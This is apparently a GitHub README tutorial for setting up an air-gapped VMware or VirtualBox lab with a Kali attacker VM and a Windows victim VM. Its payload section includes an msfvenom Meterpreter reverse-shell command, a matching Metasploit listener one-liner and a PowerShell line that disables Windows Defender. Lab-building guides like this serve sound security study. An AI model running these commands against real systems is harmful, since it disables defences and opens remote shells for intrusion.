 
# Building an Isolated Virtualization Lab for Advanced Payload Testing  
**Author:** [Your Name]  
**GitHub Repo:** [Your Repo Link]  
**Last Updated:** [Date]  

---

## 1. Introduction  
This guide provides a step-by-step process to create a **secure, air-gapped lab** for testing exploits, malware, and penetration techniques without risking real-world systems.  

---

## 2. Lab Objectives  
- Isolate lab environments from production networks.  
- Safely execute and analyze advanced payloads.  
- Monitor attacks using network/host-based tools.  

---

## 3. Hardware & Software Requirements  

### Hardware  
| Component | Specification |  
|-----------|---------------|  
| CPU       | Intel VT-x/AMD-V Enabled |  
| RAM       | 16GB+ (8GB minimum) |  
| Storage   | 200GB+ SSD |  

### Software  
| Tool | Purpose |  
|------|---------|  
| VMware/VirtualBox | Hypervisor |  
| Kali Linux | Attacker OS |  
| Windows 10 VM | Victim machine |  
| Wireshark | Network analysis |  

---

## 4. Virtualization Setup  

### 4.1 Install Hypervisor  
1. **VMware Workstation Pro**:  
   - Download from [VMware](https://www.vmware.com/products/workstation-pro.html).  
   - Enable virtualization in BIOS/UEFI.  

2. **VirtualBox**:  
   - Free alternative: [Download Here](https://www.virtualbox.org/).  

### 4.2 Configure Host-Only Networking  
- **VMware**:  
  - Go to `Edit > Virtual Network Editor > Add Network (Host-Only)`.  
- **VirtualBox**:  
  - Navigate to `File > Preferences > Network > Host-Only Networks`.  

---

## 5. Attacker & Victim VM Configuration  

### 5.1 Attacker Machine (Kali Linux)  
1. **Install Kali Linux**:  
   ```bash
   sudo apt update && sudo apt install metasploit-framework nmap -y
   ```  

2. **Start Metasploit Database**:  
   ```bash
   msfdb init && msfdb start
   ```  

### 5.2 Victim Machine (Windows)  
1. **Disable Windows Defender**:  
   ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
   ```  

2. **Create Shared Folder**:  
   - VMware: `VM Settings > Options > Shared Folders`.  

---

## 6. Payload Execution & Monitoring  

### 6.1 Generate a Payload  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.5 LPORT=4444 -f exe > payload.exe
```  

### 6.2 Execute & Monitor  
1. Transfer `payload.exe` to the victim via shared folders.  
2. Start a Metasploit listener:  
   ```bash
   msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.5; set LPORT 4444; run"
   ```  

3. **Analyze Traffic in Wireshark**:  
   ```plaintext
   Filter: ip.src == 192.168.56.5 && tcp.port == 4444
   ```  

---

## 7. Safety Best Practices  
- ✅ Use **snapshots** before testing.  
- ✅ Block internet access with a firewall (e.g., pfSense).  
- ❌ Never use real data in victim VMs.  

---

## 8. Troubleshooting  
| Issue | Solution |  
|-------|----------|  
| "VM not starting" | Enable virtualization in BIOS/UEFI. |  
| "Payload fails" | Verify host-only network IPs. |  
| "No internet in VMs" | Ensure NAT is disabled. |  

---

## 9. Generate a PDF  
1. Install **Pandoc** and **LaTeX** (see [installation steps](#)).  
2. Run:  
   ```bash
   pandoc Isolated_Lab_Guide.md -o Isolated_Lab_Guide.pdf --pdf-engine=xelatex
   ```  

---

## License  
This project is licensed under the [MIT License](LICENSE).  

**[⬆ Back to Top](#building-an-isolated-virtualization-lab-for-advanced-payload-testing)**  
